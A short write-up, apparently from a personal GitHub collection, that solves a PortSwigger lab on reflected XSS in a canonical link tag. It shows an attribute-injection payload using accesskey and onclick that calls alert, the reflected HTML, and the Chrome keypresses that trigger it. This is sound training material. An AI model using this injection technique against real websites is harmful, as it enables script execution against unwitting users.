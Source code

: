 # Reflected XSS in canonical link tag

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag), you'll learn: Reflected XSS in canonical link tag! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab reflects user input in a canonical link tag and escapes angle brackets.

To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack on the home page that injects an attribute that calls the `alert` function.

To assist with your exploit, you can assume that the simulated user will press the following key combinations:

- `ALT+SHIFT+X`
- `CTRL+ALT+X`
- `Alt+X`

Please note that the intended solution to this lab is only possible in Chrome.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-20/images/Pasted%20image%2020221231083133.png)

**View source page:**
```html
<head>
    <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
    <link href=/resources/css/labsBlog.css rel=stylesheet>
    <link rel="canonical" href='https://0a2200b504a6441cc040ccd100c20002.web-security-academy.net/'/>
    <title>Reflected XSS in canonical link tag</title>
</head>
```

In here, we can see that there is a `<link>` tag is using **canonical** link tag.

**To exploit it, we can try to inject `accesskey` attribute with an `onclick` event:**
```html
/?'accesskey='x'onclick='alert(document.domain)
```

**Result:**
```html
<link rel="canonical" href='https://0a2200b504a6441cc040ccd100c20002.web-security-academy.net/?'accesskey='x'onclick='alert(document.domain)'/>
```

**Now press:**

- On Windows: `Alt + Shift + x`
- On MacOS: `Ctrl + Alt + x`
- On Linux: `Alt + x`

> Note: It only works in Chrome browser.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-20/images/Pasted%20image%2020221231084750.png)

Nice!

# What we've learned:

1. Reflected XSS in canonical link tag